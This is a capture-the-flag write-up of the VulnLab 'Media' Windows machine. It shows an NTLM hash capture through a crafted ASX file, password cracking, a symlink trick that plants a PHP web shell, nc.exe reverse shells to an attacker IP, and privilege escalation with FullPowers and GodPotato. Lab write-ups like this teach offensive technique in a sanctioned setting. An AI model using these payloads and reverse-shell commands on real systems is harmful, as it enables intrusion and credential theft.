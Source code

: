 ```yaml
---
title: VulnLab -- Media Writeup
date: 2025-03-31 00:00:00 +0800
categories: [windows machine]
tags: [web exploitation,NTLM Relaying,Symlinks]
image:
    path: images/media-banner.png
---
```

# Media

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Media** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/media-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,80,3389 --min-rate=1000 10.10.102.154
```

![image.png](../images/media.png)

Now let’s see the website running on port 80

![image.png](../images/media%201.png)

Now let’s go create malicious asx file 

```bash
<asx version="3.0">
    <title>Leak</title>
    <entry>
        <title></title>
        <ref href="file://10.8.5.233/leak/leak.wma"/>
    </entry>
</asx>
```

![image.png](../images/media%202.png)

Now let’s open responder

```bash
sudo responder -I tun0
```

![image.png](../images/media%203.png)

Now let’s upload the asx file to the web application

![image.png](../images/media%204.png)

Now let’s go back and see if we got a hash

![image.png](../images/media%205.png)

Notice that we got a hash so let’s go and crack it

```bash
john crackme.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![image.png](../images/media%206.png)

Now let’s try login to SSH

```bash
ssh enox@10.10.70.160
```

![image.png](../images/media%207.png)

As we see we logged in!

Now let’s go and see the user flag

```bash
cd C:\Users\enox\Desktop
```

![image.png](../images/media%208.png)

Amazing we got the user flag 🥳

Now let’s navigate to the web directory and see the index.php file

```bash
c:\xampp\htdocs
```

![image.png](../images/media%209.png)

Now let’s save it and analyze it on our machine

```bash
code index.php
```

![image.png](../images/media%2010.png)

Now let’s start analysis.

![image.png](../images/media%2011.png)

> First the application is initializing the upload directory then it takes the firstname, lastname and email to and make them MD5 hash then create a folder with same name as the MD5 hash
> 

So what we will do as we have a full control of the created directory we will create a Symlink and make it point to the web root and then upload a PHP file that will execute system commands on the machine 

First let’s create our PHP file

```bash
<?php echo system($_REQUEST["cmd"]);?>
```

![image.png](../images/media%2012.png)

Now let’s create a fake md5 hash

```bash
import hashlib
print(hashlib.md5(b"remoremoremo@remo.com").hexdigest())
```

![image.png](../images/media%2013.png)

Now as we see we got the md5 hash

So let’s go and create a Symlink

```bash
mklink /J C:\Windows\Tasks\Uploads\2307356e83030ada3addf4fcc2e0dafa C:\xampp\htdocs
```

![image.png](../images/media%2014.png)

Now let’s go and try to upload the PHP file and intercept the request using BurpSuite

![image.png](../images/media%2015.png)

now let’s go back to the xampp directory and check if the PHP file is uploaded

```bash
c:\xampp\htdocs
```

![image.png](../images/media%2016.png)

as we see the evil.php file is uploaded 

Now let’s go and execute command 

```bash
whoami
```

![image.png](../images/media%2017.png)

Now let’s go and get a revershell

Frist let’s open a listener

```bash
nc -lvnp 1337
```

![image.png](../images/media%2018.png)

Now let’s go and execute reverse shell

```bash
c:\temp\nc.exe -nv 10.8.5.233 1337 -e cmd.exe
```

![image.png](../images/media%2019.png)

Now let’s go and see if we got a shell

![image.png](../images/media%2020.png)

Now let’s go and see our privilegs

```bash
whoami /all
```

![image.png](../images/media%2021.png)

> As we see we have no interesting privileges
> 

So let’s go and restore the default privileges 

```bash
FullPowers.exe -c "C:\temp\nc.exe 10.8.5.233 1338 -e cmd" -z 
```

![image.png](../images/media%2022.png)

now let’s see if we got a shell

![image.png](../images/media%2023.png)

Now let’s see our privileges

```bash
whoami /all
```

![image.png](../images/media%2024.png)

Notice that we have impersonation privileges  

so let’s us God Potato to get a reverse shell

```bash
.\gp.exe -cmd "cmd /c c:\temp\nc.exe 10.8.5.233 1337 -e cmd.exe"
```

![image.png](../images/media%2025.png)

Now let’s go and see if we got a reverse shell

![image.png](../images/media%2026.png)

as we see we got a reverse shell so let’s go to the administrator directory and see the root flag

```bash
cd c:\Users\Administrator\Desktop
```

![image.png](../images/media%2027.png)

Amazing we got a reverse shell 🥳

![image.png](../images/media%2028.png)

That’s it for the **Media** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX